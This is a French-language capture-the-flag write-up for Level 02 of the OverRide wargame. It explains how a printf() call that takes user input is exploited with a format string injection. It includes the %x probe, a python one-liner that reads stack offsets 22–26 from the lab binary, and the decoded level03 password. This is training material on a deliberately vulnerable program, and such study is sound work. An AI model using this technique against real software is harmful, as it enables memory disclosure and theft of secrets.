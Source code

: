 # Level 02

### Protections

![](Ressources/protections.png)

### Analyse

Le programme demande un **username** et un **password** a l'aide de `fgets()`.

Le programme ouvre le fichier `/home/users/level03/.pass` que l'on convoite tant. En effet, si on entre un certain mot de passe, le programme nous montrera le contenu du `.pass`.

Seulement, c'est un `strncmp()` qui fait la verification, et il compare notre entree au contenu du `.pass`. *Donc pour avoir le mot de passe de level03 il nous faut le mot de passe de level03* 🥲

Le programme parrait protege a une attaque de type Buffer Overflow.

Mais si on l'examine de plus pres, il y a un `printf()` qui prend en parametre notre entree. On a rien a perdre alors pourquoi ne pas tenter un **Format String Injection** ?

> level02@OverRide:~$ ./level02
> ===== [ Secure Access System v1.0 ] =====
> /***************************************
> | You must login to access this system. |
> \**************************************/
> --[ Username: %x%x%x%x
> --[ Password: .
>
> ffffe3d002e2a2a2a2a does not have access!

Interessant, on sait maintenant qu'**on peut lire et ecrire dans la memoire**.



Format String Injection Offset: 28

(python -c 'print "%22$06lx" + "%23$06lx" + "%24$06lx" + "%25$06lx" + "%26$06lx"') | ./level02

756e50523437684845414a3561733951377a7143574e6758354a35686e47587348336750664b394d

75 6e 50 52 34 37 68 48
45 41 4a 35 61 73 39 51
37 7a 71 43 57 4e 67 58
35 4a 35 68 6e 47 58 73
48 33 67 50 66 4b 39 4d

48 68 37 34 52 50 6e 75
51 39 73 61 35 4a 41 45
58 67 4e 57 43 71 7a 37
73 58 47 6e 68 35 4a 35
4d 39 4b 66 50 67 33 48

Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
